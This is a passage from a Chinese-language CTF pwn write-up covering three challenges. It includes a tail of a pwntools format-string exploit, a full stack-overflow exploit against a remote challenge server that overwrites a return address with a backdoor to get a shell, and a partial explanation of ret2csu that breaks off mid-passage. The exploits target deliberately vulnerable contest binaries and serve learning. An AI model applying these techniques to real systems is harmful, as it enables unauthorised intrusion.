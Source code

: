 ```python
print("len_payload: ", len(payload))
print("fmtstr_payload: ", payload)

p.sendafter(b'data: \n', payload)

p.recvuntil(b'data: \n')
p.sendline(b'/bin/sh\x00')

p.interactive()
```
![[Pasted image 20241005220952.png]](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005220952.png)
注意点：因为`read`有大小限制，在使用`fmtstr_payload`时需限制`write_size`参数为`int`来缩短`payload`，不过会导致需要填充的字符数量很多，要填充一会
~~是哪个傻子获取`printf`的got时写成`elf.sym`，导致做了好几天没做出来，我不好说~~
### Inverted World
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005221232.png)
首先可以看到有一个backdoor函数，没什么思路，打开gdb调试一下
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005221439.png)
可以发现整个是逆序放入栈中的，那么只需要填充至`+008`处将`+008`处换为`backdoor`的地址就可以调用`backdoor`了
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005221833.png)
进入``backdoor``后发现还需要`hackable`为真时才能真正获取`shell`，不然会获得一个真“flag”，这里我没找到直接改变`hackable`的方法，我选择直接进入`if`里面
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005222024.png)
将覆盖地址改为`0x401387c则可以直接进入`if`内
构造exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./inverted_world')
    pwnlib.gdb.attach(p, 'b *read')
else:
    p = remote('39.106.48.123', 34234)

# 因read为倒叙读取，所以需要将输入的字符串倒叙输入
backdoor = 0x7c13400000000000

payload = b'a' * (0x100) + p64(backdoor)
p.sendline(payload)
p.interactive()
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005222343.png)
然后我们又会发现，这里的`read`他在需要倒叙输入的同时，还只能输入两个字符，除了`ls`我们什么都干不了.......
才怪，输入`sh`可以直接获取`shell`
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005222549.png)
接下来可以正常获取flag
### My_GBC!!!!!
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241006021055.png)
首先进行`gdb`调试，可以发现把我们的输入经由`encrypt`后存在栈上，可以栈溢出，所以可以将`payload`反向解密后注入，让其加密后成为我们实际输入的`payload`即可
解决栈溢出的问题后，考虑如何进一步，初步看来以为是一个`ret2libc`，利用`write`函数泄露地址
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241006021530.png)
但实际运行时发现我们无法获取`rdx`的`gadget`，便无法修改`write`的输出数量，实际运行也可以看出仅能输出一位
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241006021707.png)
所以普通的`ret2libc`打不通。
所以这里使用的是`ret2csu`，